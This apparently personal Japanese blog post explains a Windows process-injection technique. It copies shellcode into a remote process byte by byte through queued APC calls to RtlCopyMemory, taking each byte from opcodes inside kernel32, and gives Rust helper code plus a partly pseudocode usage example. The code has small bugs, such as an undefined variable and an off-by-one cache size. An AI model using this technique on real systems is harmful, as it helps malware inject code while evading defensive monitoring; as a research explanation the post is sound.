 +++
title = "Write系コールを使わずにリモートプロセスにメモリをコピーする"
template = "page.html"
date = 2021-04-28T13:00:00Z
slug = "writeless-copy-memory"
[extra]
summary = " "
+++

マルウェアのインジェクションについて調べていたら、面白い記事を発見しました。

> [Inject Me x64 Injection-less Code Injection](https://www.deepinstinct.com/2019/07/24/inject-me-x64-injection-less-code-injection/)

インジェクションレスなインジェクション？ は？

冗談はさておき、従来のアプローチである`WriteProcessMemory`や`NtMapViewOfSection`などを使用せずに、リモートプロセスにメモリをコピーすることが出来るようです。

記事中では複雑な手順と書かれていましたが、読んでみるとそこまで大した複雑さではありませんでした。

簡単に手順をまとめると次のようになります。

1. Sleep関数を呼ぶリモートスレッドを一時停止状態で作成する
2. `RtlCopyMemory`の関数ポインタを見つける
3. `NtQueueApcThreadEx`のAPCルーチンに`RtlCopyMemory`を指定し、3つのパラメータを埋める
4. `WaitForSingleObjectEx`または類似の関数をコールして、スレッドのアラートをトリガーする

さて、これを見ると一見簡単そうに見えますが、お気づきになりましたでしょうか。

3の手順の`RtlCopyMemory`で、`src`はどうするの？という話です。

`RtlCopyMemory`はリモートプロセスでコールされるため、`src`に渡す仮想アドレスはリモートプロセス内の仮想アドレスを指すことになります。

例えば自分のプロセス内にあるシェルコードのバッファーをコピーしたい時、これをどのように渡すのでしょうか？

これの解決策は、システムDLLのロード仕様を悪用する、が答えです。

`kernel32.dll`や`ntdll.dll`は、全てのプロセスで同じ仮想アドレスの場所に配置される仕様があります。

これを利用し、システムDLLのバッファー内にあるOPコードを1バイトずつコピーすることが出来ます。

`NtQueueApcThreadEx`を呼び出す回数 = APCキューの数 = コピーしたいメモリの長さ になります。

これらを踏まえて簡単に実装すると次のような感じになります。

```rust
unsafe fn queueing<F: Fn(HANDLE) -> Result<()>>(hp: HANDLE, sleep: PVOID, closure: F) -> Result<()> {
    // スレッドを一時停止状態のフラグ付きで作成
    // Sleep関数を開始ルーチンに設定し、1msだけSleepするようにパラメータを渡す
    let h_thread = CreateRemoteThread(
        hp,
        null_mut(),
        0,
        std::mem::transmute(sleep),
        1u32 as _,
        0x4,
        NULL as _,
    );

    if h_thread.is_null() {
        bail!("CreateRemoteThread failed.");
    } else {
        println!("created thread. thread_id {}", thread_id);
    };

    // コピー処理クロージャ
    closure(h_thread)?;

    // スレッドの一時停止状態を解除
    ResumeThread(h_thread);

    // スレッドのアラートをトリガーすることで、APCキューが一つずつ処理されていく
    WaitForSingleObjectEx(h_thread, 0xFFFFFFFF, true as _);

    Ok(())
}

unsafe fn copy_by_apc(h_thread: HANDLE, RtlCopyMemory: PVOID, src: PVOID, dst: PVOID, size: usize) {
    // RtlCopyMemoryをAPCルーチンに設定
    // コピー先とコピー元の引数を間違えないように注意
    NtQueueApcThreadEx(h_thread, null_mut(), transmute(RtlCopyMemory), dst, src, size as _);
}

// OPコードはu8、つまり0x00~0xFFであることは事前にわかっているため、
// 同じOPコードを何度も探しに行かなくて済むように探索結果をキャッシュ出来る
use std::lazy::OnceCell;
static mut CACHE: OnceCell<[*mut c_void; 0xFF]> = OnceCell::new();
 
unsafe fn get_op_by_module(module: PVOID, op: u8) -> Result<*mut c_void> {
    // CACHEが初期化されてない場合、初期化
    // これを呼ばずに先に初期化できるといいんですけど...
    let _ = CACHE.get_or_init(|| {
        zeroed::<[*mut c_void; 0xFF]>()
    });

    let cache = CACHE.get_mut().unwrap();

    if cache[op as usize].is_null() {
        let nt_header = (module as u64
            + (*(module as *mut IMAGE_DOS_HEADER)).e_lfanew as u64)
            as *mut IMAGE_NT_HEADERS64;

        for i in 0 .. (*nt_header).OptionalHeader.SizeOfImage {
            if *((module as u64 + i as u64) as *mut u8) == op {
                let op_addr = (module as u64 + i as u64) as *mut c_void;

                // ここでCACHEに結果を保存
                cache[op as usize] = op_addr;
                return Ok(op_addr);
            }
        }
    } else {
        // CACHEに結果が既にある場合はそのアドレスを使用する
        return Ok(cache[op as usize]);
    }

    bail!("not found op in module")
}
```

これらを次のような感じで利用出来ます。

コピペで利用出来ないように一部疑似コードになっています。

```rust
// 使用例
unsafe fn main() -> Result<()> {
    let dst: Vec<u8> = get_binary_from_somewhere... ;
    let kernel32 = load_library...("kernel32.dll\x00");
    let sleep = get_function...(kernel32, "Sleep\x00");
    let rtl_copy_memory= get_function...(kernel32, "RtlCopyMemory\x00");
 
    let hp = OpenProcess... ;
    let allocated = VirtualAllocEx... ;
 
    queueing(hp, sleep, |ht| {
        for (i, op) in dst.iter().enumerate() {
            let op_addr = get_op_by_module(kernel32, *op)?;
            copy_by_apc(ht, rtl_copy_memory, op_addr, (allocated as u64 + i as u64) as _, 1);
        }
        Ok(())
    })?;
 
    Ok(())
}
```

これで、従来のようなメモリコピー手順をしなくてもリモートプロセスにメモリをコピー出来ます。
